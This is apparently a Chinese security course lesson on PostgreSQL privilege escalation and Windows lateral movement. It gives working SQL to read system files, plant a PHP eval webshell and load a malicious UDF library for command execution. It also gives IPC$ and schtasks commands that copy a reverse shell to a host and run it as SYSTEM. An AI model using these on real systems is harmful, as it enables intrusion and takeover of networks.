

# 课程P77：第47天 - PostgreSQL数据库提权与横向移动基础 🛡️


在本节课中，我们将学习两个核心内容：一是利用PostgreSQL数据库进行权限提升（提权）的方法，二是Windows系统下基于内置工具的横向移动基础。课程将分为两部分，首先详细讲解PostgreSQL提权的原理与步骤，然后介绍横向移动的基本概念和常用工具。


---

## 第一部分：PostgreSQL数据库提权 🗄️

上一节我们介绍了MySQL和MSSQL的数据库提权。本节中，我们来看看另一种常见的数据库——PostgreSQL的提权方法。其核心思路与MySQL UDF提权类似，都是通过创建自定义函数来执行系统命令。

### 核心原理

PostgreSQL提权主要利用数据库的“大对象”功能和自定义扩展。通过将一个包含恶意代码的共享库文件（`.so`文件）上传到目标服务器，并创建为一个自定义函数，从而获得执行系统命令的能力。


关键步骤如下：
1.  将恶意 `.so` 文件以十六进制编码形式插入到数据库的“大对象”中。
2.  将该大对象的内容导出到目标服务器的文件系统（如 `/tmp` 目录）。
3.  在数据库中创建自定义函数，链接到导出的 `.so` 文件。
4.  调用该函数执行任意系统命令。


### 环境准备与连接

首先，需要确保能连接到目标PostgreSQL数据库。连接命令通常如下：
```bash
psql -h <目标IP> -U <用户名> -d <数据库名>
```
连接成功后，可以使用 `\?` 命令查看帮助，使用 `\l` 列出数据库，使用 `\du` 列出用户。

### 利用步骤详解


以下是利用PostgreSQL执行系统命令的具体操作流程。


#### 1. 读取系统文件

在获取数据库访问权限后，可以利用数据库功能读取服务器上的文件。


**方法一：使用COPY命令**
以下命令将系统文件 `/etc/passwd` 的内容读取到数据库表 `p` 中，然后进行查询。
```sql
DROP TABLE IF EXISTS p;
CREATE TABLE p(t TEXT);
COPY p FROM '/etc/passwd';
SELECT * FROM p LIMIT 5;
```


**方法二：使用大对象（Large Object）**
以下操作将文件内容写入一个大对象，然后读取出来。
```sql
-- 创建一个大对象并写入文件内容
SELECT lo_import('/etc/passwd', 12345678);
-- 以十六进制格式读取大对象内容
SELECT hex(lo_get(12345678));
```
获取到的十六进制字符串，解码后即可得到文件原始内容。


#### 2. 写入WebShell


如果知道Web目录且有写权限，可以通过数据库写入WebShell。
```sql
-- 创建表并插入一句话木马内容
DROP TABLE IF EXISTS cmd;
CREATE TABLE cmd(code TEXT);
INSERT INTO cmd VALUES ('<?php @eval($_POST[“cmd”]);?>');
-- 将表内容导出到Web目录
COPY cmd TO '/var/www/html/exec/shell.php';
```
之后，便可访问 `http://目标IP/exec/shell.php` 连接WebShell。


#### 3. 执行系统命令（提权）




这是提权的核心步骤，目的是让数据库执行我们指定的系统命令。


**第一步：检查扩展支持**
确认数据库是否支持`plpython3u`、`plperlu`等脚本语言扩展。如果支持，可以直接利用。通常我们需要使用编译好的`.so`文件。
```sql
SELECT * FROM pg_available_extensions;
```


**第二步：上传恶意.so文件**
假设我们已有一个名为 `lib_postgresqludf_sys.so` 的恶意共享库文件。我们需要将其内容分块（每块<=2048字节）并以十六进制形式插入到大对象中。
```sql
-- 删除已存在的对象（如果存在）
SELECT lo_unlink(9023);
-- 将.so文件的十六进制内容分块插入到ID为9023的大对象中
-- 此处仅为示例，实际内容很长，需要分段插入
INSERT INTO pg_largeobject VALUES (9023, 0, decode(‘十六进制字符串块1’, ‘hex’));
INSERT INTO pg_largeobject VALUES (9023, 1, decode(‘十六进制字符串块2’, ‘hex’));
-- ... 插入所有分块
```


**第三步：导出.so文件到服务器**
将大对象中的内容导出到服务器的可写目录，例如 `/tmp`。
```sql
SELECT lo_export(9023, ‘/tmp/lib_postgresqludf_sys.so’);
```


**第四步：创建自定义函数**
利用导出的`.so`文件创建一个可以执行系统命令的函数。
```sql
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS ‘/tmp/lib_postgresqludf_sys.so’, ‘sys_eval’ LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;
```


**第五步：执行系统命令**
函数创建成功后，即可通过SQL语句执行任意系统命令。
```sql
SELECT sys_eval(‘id’);
SELECT sys_eval(‘whoami’);
```
成功执行后，将返回命令执行结果，从而实现了权限提升。


### 工具自动化


上述过程可以手动完成，也可以使用Metasploit等自动化工具。Metasploit中提供了 `postgresql_readfile`、`postgresql_sql` 等模块，可以简化文件读取和命令执行的操作。


**本节课第一部分总结：**
我们一起学习了PostgreSQL数据库提权的完整流程。核心在于利用数据库的“大对象”功能上传恶意共享库，并创建自定义函数来执行系统命令。关键在于获得数据库连接权限，并找到可写的服务器目录。在实际测试中，如果遇到PostgreSQL数据库，可以尝试此方法进行权限提升。


---

## 第二部分：Windows横向移动基础 🖥️


在渗透测试中，拿到内网一台机器的权限后，下一步往往是在同一网段内进行横向移动，扩大战果。本节将介绍利用Windows系统内置工具进行横向移动的基础方法。


### 什么是横向移动？


横向移动是指攻击者在已经控制内网一台主机（跳板机）的基础上，利用该主机提供的信息和通道，进一步攻陷同一网络环境下的其他主机的过程。


### 核心概念：IPC连接

IPC是“进程间通信”的缩写。在Windows中，IPC$ 是一个共享的命名管道资源，用于进程间通信。通过IPC$连接，可以访问远程计算机的共享资源，是许多横向移动手法的基础。

**建立IPC连接的前提条件：**
1.  目标开放了 `139` 或 `445` 端口。
2.  目标开启了 `IPC$` 共享服务。
3.  拥有目标主机的管理员账号和密码。

### 常用IPC命令

以下是利用IPC进行横向信息收集和操作的基本命令。

**建立IPC连接：**
```cmd
net use \\<目标IP>\IPC$ “<密码>” /user:<用户名>
```
例如：`net use \\192.168.1.10\IPC$ “Admin123!” /user:Administrator`

**查看当前连接：**
```cmd
net use
```

**查看目标系统时间（用于后续计划任务）：**
```cmd
net time \\<目标IP>
```

**删除IPC连接：**
```cmd
net use \\<目标IP>\IPC$ /del
```


**通过IPC连接复制文件：**
- 将本地文件复制到远程主机：
    ```cmd
    copy shell.exe \\<目标IP>\C$\Windows\Temp\
    ```
- 将远程主机文件复制到本地：
    ```cmd
    copy \\<目标IP>\C$\Windows\Temp\secret.txt .\
    ```


### 横向移动手法：IPC + 计划任务

一种经典的横向移动方式是结合IPC连接和计划任务。思路是：通过IPC连接将恶意程序上传到目标，然后通过计划任务在目标上定时执行该程序，从而获得权限。

**常用计划任务工具：**
- `schtasks`：新版Windows系统推荐使用。
- `at`：旧版系统使用，新版可能已弃用。


**操作流程示例：**
1.  **建立IPC连接**：`net use \\192.168.1.10\IPC$ “Passw0rd!” /user:Administrator`
2.  **上传后门程序**：`copy reverse_shell.exe \\192.168.1.10\C$\Windows\Temp\`
3.  **创建计划任务**（使用schtasks）：
    ```cmd
    schtasks /create /s 192.168.1.10 /u Administrator /p “Passw0rd!” /tn “UpdateTask” /sc once /st 23:30 /tr “C:\Windows\Temp\reverse_shell.exe” /ru system
    ```
    - `/tn`：任务名称。
    - `/sc once`：调度类型为一次。
    - `/st`：开始时间。
    - `/tr`：要运行的程序路径。
    - `/ru`：以SYSTEM权限运行。
4.  **立即运行任务**：`schtasks /run /s 192.168.1.10 /u Administrator /p “Passw0rd!” /tn “UpdateTask”`
5.  **清理任务**：`schtasks /delete /s 192.168.1.10 /u Administrator /p “Passw0rd!” /tn “UpdateTask” /f`

### 其他内置工具

除了IPC+计划任务，还有其他内置工具可用于横向移动：


- **SC命令**：用于管理服务，可以远程创建、启动、停止服务。例如，将后门程序注册为服务并启动。
- **WMIC命令**：强大的管理工具，可以远程执行命令、查询系统信息、管理进程等。
- **WMI**：更底层的管理框架，功能比WMIC更强大，可以通过PowerShell或特定工具调用。


**本节课第二部分总结：**
我们一起学习了Windows横向移动的基础概念和基于IPC连接的经典方法。核心思路是利用已获取的管理员凭证，通过系统内置的远程管理功能（如IPC共享、计划任务、服务管理）在网内其他机器上部署并执行载荷。理解这些基本原理是学习更复杂横向移动技术的基础。


---


**本节课整体总结：**
在本节课中，我们深入探讨了PostgreSQL数据库的提权技术，学习了从文件读写到命令执行的全过程。随后，我们转向内网渗透的另一个关键阶段——横向移动，介绍了利用Windows IPC连接和计划任务进行横向扩展的基本方法。掌握这些技能，能够帮助我们在渗透测试中更有效地扩大控制范围。请大家务必在实验环境中亲手操作，加深理解。